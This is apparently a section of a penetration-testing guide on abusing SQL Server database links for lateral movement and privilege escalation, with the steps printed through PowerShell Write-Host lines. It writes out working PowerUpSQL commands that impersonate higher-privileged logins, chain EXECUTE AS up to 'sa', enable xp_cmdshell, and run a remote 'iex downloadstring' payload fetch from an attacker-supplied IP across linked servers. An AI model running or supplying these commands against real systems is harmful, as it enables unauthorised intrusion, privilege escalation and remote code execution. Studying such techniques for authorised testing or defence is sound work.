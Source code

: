 ### **2. 🔗 Complete Database Link Abuse Workflow**

#### **Step-by-Step Database Link Exploitation**
```powershell
# Complete Database Link Abuse Workflow (CRITICAL MISSING CONTENT)
Write-Host "=== COMPLETE DATABASE LINK ABUSE WORKFLOW ===" -ForegroundColor Red

Write-Host "`n🎯 ATTACK OVERVIEW:" -ForegroundColor Yellow
Write-Host "Database links enable lateral movement and privilege escalation across SQL Server instances." -ForegroundColor White

Write-Host "`n📋 PREREQUISITES:" -ForegroundColor Yellow
Write-Host "1. Access to SQL Server instance with database links" -ForegroundColor White
Write-Host "2. Database links configured to remote instances" -ForegroundColor White
Write-Host "3. Sufficient privileges to execute queries" -ForegroundColor White

Write-Host "`n🚀 EXECUTION STEPS:" -ForegroundColor Yellow
Write-Host "1. Identify database links and linked servers" -ForegroundColor White
Write-Host "2. Map the link chain and target instances" -ForegroundColor White
Write-Host "3. Exploit impersonation privileges if available" -ForegroundColor White
Write-Host "4. Chain EXECUTE AS commands for privilege escalation" -ForegroundColor White
Write-Host "5. Enable xp_cmdshell on target instances" -ForegroundColor White
Write-Host "6. Execute commands across the link chain" -ForegroundColor White

Write-Host "`n🔧 COMPLETE DATABASE LINK ABUSE COMMANDS:" -ForegroundColor Yellow

Write-Host "`nStep 1: Impersonate User" -ForegroundColor Cyan
Write-Host "# Impersonate a user with higher privileges" -ForegroundColor Gray
Write-Host "Invoke-SQLAuditPrivImpersonateLogin -Instance <instanceName> -Exploit -Verbose" -ForegroundColor White

Write-Host "`nStep 2: Chain EXECUTE AS Commands" -ForegroundColor Cyan
Write-Host "# Chain EXECUTE AS for privilege escalation" -ForegroundColor Gray
Write-Host "Get-SQLServerLinkCrawl -Verbose -Instance <instanceName> -Query \"EXECUTE AS LOGIN = 'dbuser'; EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE; EXEC master..xp_cmdshell 'powershell -c iex (new-object net.webclient).downloadstring(''http://IP/Invoke-HelloWorld.ps1'')'\"" -ForegroundColor White

Write-Host "`nStep 3: Execute Commands Across Links" -ForegroundColor Cyan
Write-Host "# Execute commands on target instances" -ForegroundColor Gray
Write-Host "Get-SQLServerLinkCrawl -Instance <instanceName> -Query 'exec master..xp_cmdshell ''whoami''' -QueryTarget <targetInstance>" -ForegroundColor White

Write-Host "`n⚠️ IMPORTANT NOTES:" -ForegroundColor Red
Write-Host "- Database links can enable deep lateral movement" -ForegroundColor White
Write-Host "- Monitor for unusual database link usage" -ForegroundColor White
Write-Host "- Use responsibly and ethically" -ForegroundColor White
Write-Host "- Can bypass network segmentation" -ForegroundColor White
```

#### **Database Link Attack Scenarios**
```powershell
# Database Link Attack Scenarios
Write-Host "=== DATABASE LINK ATTACK SCENARIOS ===" -ForegroundColor Green

Write-Host "`n🎯 SCENARIO 1: LATERAL MOVEMENT" -ForegroundColor Yellow
Write-Host "Objective: Move from one SQL Server to another via database links" -ForegroundColor White
Write-Host "Method: Use Get-SQLServerLinkCrawl to traverse link chains" -ForegroundColor White
Write-Host "Impact: Access to additional systems and data" -ForegroundColor White

Write-Host "`n🎯 SCENARIO 2: PRIVILEGE ESCALATION" -ForegroundColor Yellow
Write-Host "Objective: Gain higher privileges via EXECUTE AS chaining" -ForegroundColor White
Write-Host "Method: Chain multiple EXECUTE AS commands across links" -ForegroundColor White
```